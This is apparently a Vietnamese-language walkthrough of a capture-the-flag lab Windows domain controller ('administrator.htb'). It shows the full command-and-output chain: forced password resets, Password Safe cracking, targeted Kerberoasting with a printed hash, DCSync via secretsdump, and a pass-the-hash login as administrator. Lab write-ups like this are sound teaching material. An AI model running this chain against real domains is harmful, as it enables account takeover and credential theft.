






## Description

## Enumeration
### Nmap
```bash
# Nmap 7.95 scan initiated Wed Oct  7 09:53:52 2026 as: nmap -p- --min-rate 10000 -oA nmap/allport 10.129.51.251
Warning: 10.129.51.251 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.51.251
Host is up (0.082s latency).
Not shown: 65417 closed tcp ports (reset), 92 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
52902/tcp open  unknown
52907/tcp open  unknown
52912/tcp open  unknown
52923/tcp open  unknown
52934/tcp open  unknown
52967/tcp open  unknown

# Nmap done at Wed Oct  7 09:54:07 2026 -- 1 IP address (1 host up) scanned in 15.17 seconds
# Nmap 7.95 scan initiated Wed Oct  7 10:01:55 2026 as: nmap -sCV -p 21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA nmap/detailport 10.129.51.251
Nmap scan report for 10.129.51.251
Host is up (0.072s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-07 10:01:00Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-10-07T10:01:05
|_  start_date: N/A
|_clock-skew: 6h58m56s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  7 10:02:17 2026 -- 1 IP address (1 host up) scanned in 22.48 seconds
```
Lý do mình bỏ các cổng giá trị cao đó: trên Windows, những cổng 49152+ và dải 54xxx là endpoint RPC được cấp phát động bởi RPC mapper (cổng 135). Chúng không gắn liền với dịch vụ cố định nào, thay đổi sau mỗi lần reboot, quét `-sCV` lên chúng gần như không cho thêm thông tin hữu ích - chỉ báo "msrpc" chung chung. Cổng 47001 cũng chỉ là listener WinRM qua HTTPAPI, trùng với chức năng 5985 đã có. Loại bỏ chúng giúp quét nhanh hơn mà không mất thông tin giá trị.
### Machine Information
`As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich`


Dựa vào các này ta kiểm tra thử xem có dịch vụ nào đăng nhập được không.

1.SMB

```bash
nxc smb 10.129.51.251 -u olivia -p ichliebedich
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\olivia:ichliebedich 
```

2.WinRM

```
nxc winrm 10.129.51.251 -u olivia -p ichliebedich
WINRM       10.129.51.251   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.129.51.251   5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

3.FTP

```bash
nxc ftp 10.129.51.251 -u olivia -p ichliebedich
FTP         10.129.51.251   21     10.129.51.251    [-] olivia:ichliebedich (Response:530 User cannot log in, home directory inaccessible.)
```
### SMB - Port 445

Việc quan trọng trong khai thác Window đó chính là tìm domain của AD:

```bash
#nxc smb 10.129.51.251
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing WMI protocol database
[*] Initializing WINRM protocol database
[*] Initializing VNC protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing NFS protocol database
[*] Initializing LDAP protocol database
[*] Initializing FTP protocol database
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Copying default configuration file
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

```bash
#cat /etc/hosts | grep -i dc
10.129.51.251 DC.administrator.htb DC administrator.htb
```

Liệt kê shares và list username

```bash
nxc smb administrator.htb -u olivia -p ichliebedich --shares
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.129.51.251   445    DC               [*] Enumerated shares
SMB         10.129.51.251   445    DC               Share           Permissions     Remark
SMB         10.129.51.251   445    DC               -----           -----------     ------
SMB         10.129.51.251   445    DC               ADMIN$                          Remote Admin
SMB         10.129.51.251   445    DC               C$                              Default share
SMB         10.129.51.251   445    DC               IPC$            READ            Remote IPC
SMB         10.129.51.251   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.51.251   445    DC               SYSVOL          READ            Logon server share 
nxc smb administrator.htb -u olivia -p ichliebedich --users
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\olivia:ichliebedich 
SMB         10.129.51.251   445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.51.251   445    DC               Administrator                 2024-10-22 18:59:36 0       Built-in account for administering the computer/domain 
SMB         10.129.51.251   445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.51.251   445    DC               krbtgt                        2024-10-04 19:53:28 0       Key Distribution Center Service Account 
SMB         10.129.51.251   445    DC               olivia                        2024-10-06 01:22:48 0        
SMB         10.129.51.251   445    DC               michael                       2024-10-06 01:33:37 0        
SMB         10.129.51.251   445    DC               benjamin                      2024-10-06 01:34:56 0        
SMB         10.129.51.251   445    DC               emily                         2024-10-30 23:40:02 0        
SMB         10.129.51.251   445    DC               ethan                         2024-10-12 20:52:14 0        
SMB         10.129.51.251   445    DC               alexander                     2024-10-31 00:18:04 0        
SMB         10.129.51.251   445    DC               emma                          2024-10-31 00:18:35 0        
SMB         10.129.51.251   445    DC               [*] Enumerated 10 local users: ADMINISTRATOR
```

### WinRM

```bash
#./evil-winrm.rb -i 10.129.51.251 -u olivia -p ichliebedich
                                        
Evil-WinRM shell v4.1
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\olivia\Documents> ls /


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/29/2024   1:05 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---        10/30/2024   4:53 PM                Program Files
d-----        10/30/2024   4:42 PM                Program Files (x86)
d-r---         10/7/2026   3:27 AM                Users
d-----         11/1/2024   1:50 PM                Windows
```

Có thư mục `inetpub`. Nó là thư mục gốc mặc định của IIS (Internet Information Services) - máy chủ web/FTP tích hợp sẵn của Windows. Một máy Windows thông thường không có thư mục này. Khi bạn thấy nó tồn tại, nghĩa là máy đã bật vai trò IIS - tức là có dịch vụ web hoặc FTP đang chạy.

```bash
*Evil-WinRM* PS C:\> cd inetpub
*Evil-WinRM* PS C:\inetpub> ls


    Directory: C:\inetpub


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/29/2024   1:05 PM                custerr
d-----         10/5/2024   7:14 PM                ftproot
d-----         11/1/2024   1:27 PM                history
d-----         10/5/2024   9:59 AM                logs
d-----         10/5/2024   9:59 AM                temp


*Evil-WinRM* PS C:\inetpub> cd ftproot
*Evil-WinRM* PS C:\inetpub\ftproot> ls
Access to the path 'C:\inetpub\ftproot' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\inetpub\ftproot:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Nó bị denied => Gợi ý cho mình chắc chắn có dữ liệu quan trọng ở trong đây. 

```bash
*Evil-WinRM* PS C:\inetpub> whoami /all

USER INFORMATION
----------------

User Name            SID
==================== ============================================
administrator\olivia S-1-5-21-1088858960-373806567-254189436-1108

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### BloodHound

Lấy thông tin

```
python3 /opt/BloodHound/BloodHound.py/bloodhound.py -d administrator.htb -c all -u olivia -p ichliebedich -ns 10.129.51.251 --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 14S
INFO: Compressing output into 20261007132850_bloodhound.zip
```

Build Bloodhound bằng docker:

```
#curl -L https://ghst.ly/getbhce | BLOODHOUND_PORT=8888 docker compose -f - up                                                                                  
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                      
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                        
100   156  100   156    0     0    253      0 --:--:-- --:--:-- --:--:--   253                                                                                       
100  3902  100  3902    0     0   3621      0  0:00:01  0:00:01 --:--:--  762k                                                                                       
[+] up 45/51                                                                                                                                                         
 ✔ Image docker.io/specterops/bloodhound:latest Pulled                                                                                                          94.4s
 ✔ Image docker.io/library/postgres:18          Pulled                                                                                                         225.3s
 ✔ Image docker.io/library/neo4j:4.4.42         Pulled                                                                                                         209.6s
 ✔ Network bloodhound_default                   Created                                                                                                          0.1s
 ✔ Volume bloodhound_neo4j-data                 Created                                                                                                          0.0s
 ✔ Volume bloodhound_postgres-data              Created                                                                                                          0.0s
 ✔ Container bloodhound-graph-db-1              Created                                                                                                          0.2s
 ✔ Container bloodhound-app-db-1                Created                                                                                                          0.2s
 ✔ Container bloodhound-bloodhound-1            Created                                                                                                          0.1s
Attaching to app-db-1, bloodhound-1, graph-db-1                                                                                                                      
Container bloodhound-graph-db-1 Waiting                                                                                                                              
Container bloodhound-app-db-1 Waiting   
...
loodhound-1  | {"time":"2026-10-07T06:41:40.698289771Z","level":"INFO","message":"DogTags Configuration","namespace":"dogtags","flags":{"auth.environment_targeted_a
ccess_control":false,"privilege_zones.label_limit":0,"privilege_zones.multi_tier_analysis":false,"privilege_zones.tier_limit":1}}                                    
bloodhound-1  | {"time":"2026-10-07T06:41:41.563792386Z","level":"INFO","message":"Successfully ran goose migrations"}                                               
bloodhound-1  | {"time":"2026-10-07T06:41:41.564632357Z","level":"INFO","message":"Default admin enabled, creating admin account"}                                   
bloodhound-1  | ###################################################################                                                                                  
bloodhound-1  | #                                                                 #                                                                                  
bloodhound-1  | # Initial Password Set To:    e4nYsugFufIwZ9g0bq5CYeRj0Sa42QVs    #                                                                                  
bloodhound-1  | #                                                                 #                                                                                  
bloodhound-1  | ###################################################################     
...              
```

Vào localhost:8888 đăng nhập admin/e4nYsugFufIwZ9g0bq5CYeRj0Sa42QVs. Sau đó upload file zip vừa thu thập.

Ta sẽ bắt đầu từ olivia (Đánh dấu điểm bắt đầu). 

Michael này là memberof Remote Management

## Shell as Michael

Đổi mật khẩu Michael:

```bash
net rpc password "michael" "hakai123." -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.129.51.251
```

Kiểm tra thử:

1.SMB

```bash
nxc smb  10.129.51.251 -u michael -p 'hakai123.'
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\michael:hakai123. 
```

2.WinRM

```bash
nxc winrm  10.129.51.251 -u michael -p 'hakai123.'
WINRM       10.129.51.251   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.129.51.251   5985   DC               [+] administrator.htb\michael:hakai123. (Pwn3d!)
```

3.FTP

```bash
nxc ftp 10.129.51.251 -u michael -p 'hakai123.'
FTP         10.129.51.251   21     10.129.51.251    [-] michael:hakai123. (Response:530 User cannot log in, home directory inaccessible.)
```

## Shell as Benjamin

Tương tự như Michael:

```bash
net rpc password "benjamin" "hakai123." -U "administrator.htb"/"michael"%"hakai123." -S 10.129.51.251
```

Kiểm tra:

1.SMB

```bash
nxc smb 10.129.51.251 -u benjamin -p 'hakai123.'
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\benjamin:hakai123. 
```

2.WinRM

```bash
nxc winrm 10.129.51.251 -u benjamin -p 'hakai123.'
WINRM       10.129.51.251   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.129.51.251   5985   DC               [-] administrator.htb\benjamin:hakai123.
```

3.FTP

```bash
nxc ftp 10.129.51.251 -u benjamin -p 'hakai123.'
FTP         10.129.51.251   21     10.129.51.251    [+] benjamin:hakai123.
```

## Shell as Emily

### FTP

```bash
ftp 10.129.51.251
Connected to 10.129.51.251.
220 Microsoft FTP Service
Name (10.129.51.251:hakai): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49815|)
125 Data connection already open; Transfer starting.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||49817|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************|   952       14.15 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (14.04 KiB/s)
```

### Hashcat

```bash
hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
...
Backup.psafe3:tekieromucho
...
```

### Password safe

Setup:

```
wget https://github.com/pwsafe/pwsafe/releases/download/1.25.0/passwordsafe-debian12-1.25-amd64.deb
dpkg -i passwordsafe-debian12-1.25-amd64.deb
pwsafe
```

Sau khi đăng nhập thành công

Thử lần lượt thì duy nhất emily thành công:

```bash
nxc smb 10.129.51.251 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
SMB         10.129.51.251   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.51.251   445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
```

Lấy user.txt

```
*Evil-WinRM* PS C:\Users\emily\Desktop> ls


    Directory: C:\Users\emily\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         10/7/2026   2:15 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily\Desktop> cat user.txt
0f5ea6a5804a6881f81f05604a2b11d3
```

## Shell as Administrator via Ethan

Với GenericWrite thì ta có thể sử dụng Targeted Kerberoast.

### Targeted Kerberos

```bash
ntpdate administrator.htb
python3 targetedKerberoast.py -v -d 'administrator.htb' -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$22846c944c0d8f32d04c5058f5c5dca1$74db1dac6af02634fcf684b0b8be612a1a89dc2e990faec587bcb3abd78ca90d74f7509a4085bb7ad6d3fbac1087689c8897cdd4a408cc9fbd037f5217dabbb4bacdd6f7ce68c829d85e64378c04ed2201e3574d7b890e8e4ad5e66949178632a3c5927f5b46338406a045d99191faff422e47da45a84263cc283c9646432e0705987c24ab43400ef9f92bd2c038690627ce7e272d2500f77eebbd4492be5a3e481514ec65742695dc8064954d71251ce1358fe268c845564814323ebdf4c22bff00332e11cd8cdff7eb3270e068bd005d57daba4c1fafa11e3a8d07611254d3a9d0b619bbcd406b7f827c57f4cfd87d537888be6fd60c825b3a10968d4c08347a7b630e6770adf0d673f585f9cde7dd14cc4fdd55f049eb1c67f9b9f678ee86009123fef9a0045df06db34147794239abaabb198da78c0cf81d9d638c50a717daf90b44c8c640111a38119554a0a0bea0bc098b5e9d062376a68e9742aef1e50870826d73f33701e9447bede356551d2c039e85c2ff682038937d0f1a4a01ca9fdc7d5a478290e4b514e7814c398cc439128b25a21825cdc98dd59b01eaa165130b8a1ce32cff9d2c59c4b3eff198b074f8d97b7dc9d54b4a92e4a46ac33582cbd0d7a4eb3770028cc993e87aa385428d6a2582e8c80d72a8bc3d3f7d1566fd36493751d7b6429daf470cef8446546e820e66dc04350457399127076f008e8075a0b3bab8aa6bdeff9187c32362163855f37ef325dd5b0103e9e029dcbcff44d62b76528a011912c01fdb4a82ce075405b5d70ca61ae8fa2451e5f34a9d829a98bc33d68def1f17c8ca98ae97f6b5397bd7ec64357723244a952fc9044c143f8eefe701e580ab86739c64dabda4c3a776640c5e82a82921c074fbfe5bcdd513a5d14bd2492b9a89e5ea8740539ac33147ac5e4d3aacc4725cd222981bcfbbbf45a3269e67e6e85632d7a4e99bd3bd3362362547f7df432d91146c5464ff09c461dac16802ac592bf9e9009da1db39c4a18226a46f12912e7c52fd0b352b7b166fa27281f4ea4370b5b621dcbfe9f92af1aa2da82690bb5fd6874f7ee4e4f48e3065c6c1a2fbe0dc4cee13358d6c1cc7993d16bb544ade123077c1509aa693457a5633059242e41b833246addf8e3eda86bd5b562a3b382ca83da7e3df326846e14945e7867666a3379cbed3ce1f3c999db91472a36c9521ba4c7ee191cdeb42645a1b2c61dc25e8911786932576a890b7f600446a86ca9a4c59de75bc54eea8050d01859b522d574a49f3e85935df2ebf7203a5e0f72e19833a3dc5e4e80923853c8ad7553777df26949f9f83d2af1e120f8d846cddc57cd4a0960a81446150a0cbd351fa8a19b291e4a4733e585e0d833cb17619357714e5a7d1da084d0ddb25da30bcb2f4b3cf6042a56d55e06da50e3844a61a4a7337d466b14d864a066cf8a24810055140ee46aed8eea4ed87c4685a7daa9c0f31267f205ebe796ca48a887cc498492656ed269221edcef6f88954d9e17383081821ddcfb942405982
[VERBOSE] SPN removed successfully for (ethan)
```

### Hashcat

```bash
hashcat ethan.hashcat /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Tìm được kết quả: limpbizkit

Với DCSync sử dụng `impacket-secretsdump`:

```
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.129.51.251
```

Kết quả:

Sử dụng evil-winrm để đăng nhập thông qua hash

```
evil-winrm -i 10.129.51.251 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
```

Vào root thành công!